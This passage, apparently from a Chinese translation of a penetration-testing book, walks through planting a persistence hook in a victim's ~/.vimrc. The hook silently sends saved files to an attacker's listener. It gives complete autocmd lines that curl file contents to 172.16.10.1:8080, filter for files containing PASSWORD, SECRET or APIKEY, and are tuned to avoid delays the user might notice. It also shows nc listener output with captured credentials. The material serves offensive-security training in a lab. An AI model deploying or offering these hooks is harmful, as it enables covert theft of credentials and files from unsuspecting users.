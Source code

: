 让我们分析一下发生了什么。首先，我们使用 autocmd 关键字定义一个 autocmd 指令。接下来，我们指定事件名称 BufWritePost，然后跟随两个文件扩展名，**.conf** 和 **.config**。这将确保无论何时写入带有这两个扩展名的文件，命令都会触发。

我们使用`:silent`来抑制任何命令消息或错误。最后，我们定义一个以`!`开头的命令，后跟感兴趣的 shell 命令的语法。在这个例子中，我们使用 curl 向 172.16.10.1:8080 发出 HTTP POST 请求，这将运行我们 Kali 机器上的监听器。我们传递`-m`（最大时间）并设定为 5，以确保整个操作不超过五秒。然后我们传递`-s`（静默）参数以防止文本输出，并通过使用`-o /dev/null`将标准输出重定向到*/dev/null*。我们还传递`--data-binary @<afile>`来上传文件。autocmd <afile>变量表示 Vim 正在编辑的实际文件。

总结来说，当用户写入一个名为*credentials.conf*的文件时，Vim 将执行一个 curl 命令，秘密地将该文件发送到远程监听器。将此文件保存为*~/.vimrc*。接着，通过使用任何 TCP 监听器在 Kali 机器上打开一个远程监听器：

```
$ **nc -lkvp 8080**

listening on [any] 8080 ... 
```

最后，使用 vi 或 vim.tiny 命令（因为 vi 在实验室中是 vim.tiny 的符号链接），打开一个文件并写入内容：

```
$ **vim.tiny /tmp/credentials.conf**

USER=nostarch
PASS=press123 
```

当你使用 Vim 将文件保存到磁盘时，你应该注意到文件内容已被发送到监听器：

```
listening on [any] 8080 ...
172.16.10.13: inverse host lookup failed: Unknown host
connect to [172.16.10.1] from (UNKNOWN) [172.16.10.13] 42538
POST / HTTP/1.1
Host: 172.16.10.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 29
Content-Type: application/x-www-form-urlencoded

**USER=nostarch**
**PASS=press123** 
```

如果你想泄露所有文件，无论其扩展名如何，这个 autocmd 命令应该能完成任务：

```
autocmd BufWritePost * :silent !timeout 1 curl -m 5 -s -o /dev/null
http://172.16.10.1:8080 --data-binary @<afile> 
```

然而，如果文件特别大，上传可能需要很长时间。这可能会让用户察觉到某些不正当行为，因为写入文件时会导致明显的延迟。让我们让我们的钩子更聪明一点（列表 10-6）。

```
autocmd BufWritePost *.conf,*.config :silent !if grep "PASSWORD\|SECRET\|APIKEY" <afile>;
then timeout 3 curl -m 5 -s -o /dev/null http://172.16.10.1:8080
--data-binary @<afile>; fi 
```
